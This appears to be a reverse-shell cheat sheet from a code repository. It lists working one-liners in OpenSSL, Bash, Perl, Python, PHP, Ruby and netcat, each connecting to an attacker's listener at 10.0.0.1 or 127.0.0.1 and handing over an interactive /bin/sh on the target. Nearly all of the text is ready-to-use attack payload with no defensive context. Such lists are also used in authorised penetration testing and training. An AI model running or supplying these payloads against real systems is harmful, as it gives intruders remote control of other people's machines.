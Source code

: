 ```sh
openssl req -x509 -quiet -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

Start an SSL listener on your attacking machine using ```openssl```:

```sh
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

Run the payload on target machine using ```openssl```:

```sh
mkfifo /tmp/s;/bin/sh -i</tmp/s 2>&1|openssl s_client -quiet -connect 127.0.0.1:4444>/tmp/s 2>/dev/null;rm /tmp/s
```

## Bash

```sh
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## PERL

```sh
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP

```sh
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby

```sh
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

```sh
nc -e /bin/sh 10.0.0.1 1234
```
